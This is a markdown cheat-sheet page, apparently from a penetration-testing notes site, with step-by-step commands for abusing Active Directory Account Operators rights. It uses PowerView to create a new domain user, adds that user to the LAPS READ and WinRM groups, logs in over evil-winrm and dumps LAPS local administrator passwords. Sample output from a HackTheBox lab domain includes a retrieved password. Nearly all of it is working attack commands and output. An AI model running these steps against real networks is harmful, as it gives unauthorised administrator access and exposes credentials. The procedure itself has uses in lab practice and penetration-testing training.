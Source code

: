 ```yaml
---
title: "Account Operators"
date: 2024-7-23
tags: ["Credential Dumping", "AddMember", "Account Operators", "Active Directory", "Windows", "LAPS"]
---
```


### Privesc #1: Create a new user account and add it to LAPS (Local Administrator Password Solution) group

{{< tab set1 tab1 active >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. Import PowerView.ps1 

```console
. .\PowerView.ps1
```

```console {class=sample-code}
*Evil-WinRM* PS C:\programdata> . .\PowerView.ps1
```

#### 2. Create a cred object (runas) \[optional\]

```console
$username = '<DOMAIN>\<USER>'
```

```console
$password = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
```

```console
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $password
```

#### 3. Create a new user password object

```console
$new_user_password = ConvertTo-SecureString '<NEW_USER_PASSWORD>' -AsPlainText -Force
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\programdata> $new_user_password = ConvertTo-SecureString 'Test1234' -AsPlainText -Force
```

#### 4. Create a new user account

```console
New-AdUser '<NEW_USER>' -enabled $true -accountpassword $new_user_password -Credential $cred
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\programdata> New-AdUser 'alice' -enabled $true -accountpassword $new_user_password -Credential $cred
```

#### 5. Add the new user to LAPS group

```console
Add-DomainGroupMember -Identity 'LAPS READ' -Members '<NEW_USER>' -Credential $cred
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\programdata> Add-DomainGroupMember -Identity 'LAPS READ' -Members 'alice' -Credential $cred
```

#### 6. Add the new user to WinRM group

```console
Add-DomainGroupMember -Identity 'WinRM' -Members '<NEW_USER>' -Credential $cred
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\programdata> Add-DomainGroupMember -Identity WinRM -Credential $cred -Members 'alice'
```

#### 7. Remote as new user

```console
evil-winrm -i <TARGET> -u '<NEW_USER>' -p '<NEW_USER_PASSWORD>'
```

```console {class="sample-code"}
$ evil-winrm -i 127.0.0.1 -u alice -p 'Test1234'              
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\alice\Documents> 
```

#### 8. Read LAPS password

```console
Get-AdComputer -Filter * -Properties ms-Mcs-AdmPwd
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\alice\Documents> Get-AdComputer -Filter * -Properties ms-Mcs-AdmPwd

DistinguishedName : CN=PIVOTAPI,OU=Domain Controllers,DC=LicorDeBellota,DC=htb
DNSHostName       : PivotAPI.LicorDeBellota.htb
Enabled           : True
ms-Mcs-AdmPwd     : 82SD67Cuq34TPZm4mnFo
Name              : PIVOTAPI
ObjectClass       : computer
ObjectGUID        : 98783674-e6a3-4d9e-87e3-efe5f31fabbf
SamAccountName    : PIVOTAPI$
SID               : S-1-5-21-842165252-2479896602-2762773115-1004
UserPrincipalName :
```

{{< /tabcontent >}}
